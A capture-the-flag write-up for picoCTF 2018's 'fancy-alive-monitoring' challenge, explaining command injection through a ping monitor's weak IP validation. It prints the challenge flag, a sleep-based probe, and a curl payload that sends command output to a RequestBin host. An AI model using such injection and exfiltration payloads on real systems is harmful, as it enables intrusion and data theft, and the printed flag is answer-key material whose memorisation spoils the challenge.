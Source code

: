 fancy-alive-monitoring
======================

Points: 400  
Solves: 480

Flag: `picoCTF{n3v3r_trust_a_b0x_d7ad162d}`


Description
-----------

One of my school mate developed an alive monitoring tool. Can you get a flag
from http://2018shell2.picoctf.com:17593 (link)?


Solution
--------

This service is monitoring some hosts with the result of the `ping` comand (see
[index.txt](index.txt)). This service has a client-side filtering, using
JavaScript, and a server-side filtering. The server-side filter has been
malformed and verify that the IP address begin by a real IP, but does not verify
that it's just an IP. So we are able to combine the `ping` command with another
commend.

To verify this hypothesis, we can send the string `1.1.1.1;sleep 10` as an IP.
If the page takes more than 10 seconds to be generated, we have trigger the
vulnerability. ![](hypothesis_10sec.png)

So, tiiiiiiiime to exfiltrate ! The `curl` command is present on this machine,
so we are able to exfiltrate data with it and
[RequestBin.net](http://requestbin.net/). The payload ``1.1.1.1;curl -X POST -d
"`<YOUR COMMAND>`" http://requestbin.net/r/<YOUR URL ID>``.

By executing the `ls` command, we see the presence of a file
`the-secret-1335-flag.txt`. It contains the flag.
